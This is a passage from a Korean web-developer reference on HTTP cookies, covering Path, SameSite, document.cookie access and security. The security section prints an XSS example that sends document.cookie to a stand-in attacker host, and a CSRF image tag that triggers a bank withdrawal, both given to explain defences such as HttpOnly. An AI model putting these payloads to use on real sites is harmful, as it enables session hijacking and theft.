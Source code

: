 만약 `Path=/docs`이 설정되면, 다음의 경로들은 모두 매치될 것입니다:

- `/docs`
- `/docs/Web/`
- `/docs/Web/HTTP`

### `SameSite` 쿠키 {{experimental_inline}}

`SameSite` 쿠키는 쿠키가 cross-site 요청과 함께 전송되지 않았음을 요구하게 만들어, cross-site 요청 위조 공격({{Glossary("CSRF")}})에 대해 어떤 보호 방법을 제공합니다. `SameSite` 쿠키는 여전히 실험 중이며 모든 브라우저에 의해 아직 제공되지 않고 있습니다.

### `Document.cookie`를 사용한 자바스크립트 접근

새로운 쿠키들은 {{domxref("Document.cookie")}}를 사용해 만들어질 수도 있으며, `HttpOnly` 플래그가 설정되지 않은 경우 기본의 쿠키들은 자바스크립트로부터 잘 접근될 수 있습니다.

```js
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

아래 [보안](/ko/docs/Web/HTTP/Cookies#Security) 섹션에서 다루고 있는데로 보안 관련 내용들을 잘 알아두시기 바랍니다. 자바스크립트에서 이용 가능한 쿠키들은 XSS를 통해 감청될 수 있습니다.

## 보안

> **참고:** 기밀 혹은 민감한 정보는 전체 메커니즘이 본질적으로 위험하기 때문에 HTTP 쿠키 내에 저장되거나 전송되어서는 안됩니다.

### 세션 하이재킹과 XSS

쿠키는 대개 웹 애플리케이션에서 사용자와 그들의 인증된 세션을 식별하기 위해 사용되곤 합니다. 그래서 쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있습니다. 쿠키를 가로채는 일반적인 방법은 소셜 공학 사용 혹은 애플리케이션 내 {{Glossary("XSS")}} 취약점을 이용하는 것을 포함합니다.

```js
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly` 쿠키 속성은 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 이런 공격을 누그러뜨리는데 도움을 줄 수 있습니다.

### Cross-site 요청 위조 (CSRF)

[위키피디아](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery)에 {{Glossary("CSRF")}}에 대한 좋은 예제가 있습니다. 위키피디아의 예와 같은 상황에서, 당신의 은행 서버에 돈을 입금하는 실제 요청 대신에, 실제로는 이미지가 아닌 이미지를 포함시키고 있습니다(예를 들어 필터링되지 않은 채팅이나 포럼 페이지 내에):

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory" />
```

이제, 당신이 당신의 은행 계좌에 로그인하고 당신의 쿠키가 여전히 유효하다면(그리고 별 다른 검증 절차가 존재하지 않는다면), 해당 이미지를 포함하고 있는 HTML을 로드하자마자 돈이 송금될 것입니다. 이런 일들이 벌어지는 것을 방지하기 위한 몇 가지 기술이 있습니다:
